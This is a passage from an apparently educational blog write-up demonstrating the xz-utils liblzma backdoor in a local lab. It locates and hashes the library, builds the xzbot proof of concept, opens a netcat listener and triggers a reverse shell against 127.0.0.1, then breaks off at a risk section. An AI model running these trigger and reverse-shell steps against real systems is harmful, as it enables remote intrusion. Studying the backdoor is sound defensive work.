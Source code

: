 Locate and modify the backdoor signature:

```bash
sudo find / -name "liblzma.so.5.6.1" 2> /dev/null

# /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1
                                                                                                                   
shasum -a 256 /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1

# 605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1
```

{{< admonition tips "More Info!" >}}
If you need help with this step: https://github.com/amlweems/xzbot
{{< /admonition >}}

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo2.png)

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo3.png)

Start the `SSH` service:

```sh
sudo systemctl start ssh
```

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo4.png)

Build the PoC binary and open a `netcat` listener.

```sh
go build .

# Other terminal
nc -lvp 4444
```

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo5.png)

Trigger the backdoor with the command `xzbot -addr 127.0.0.1 -cmd '<command>'`. The example below triggers the execution of a reverse shell.

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo6.png)

Finally, some articles mention the presence of a KillSwitch via the environment variable `yolAbejyiejuvnup=Evjtgvsh5okmkAvj`. This seems to have no effect 🤔

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo7.png)

## Risks

🤔 Is there a risk to my company?

**Yes, but quite low!**

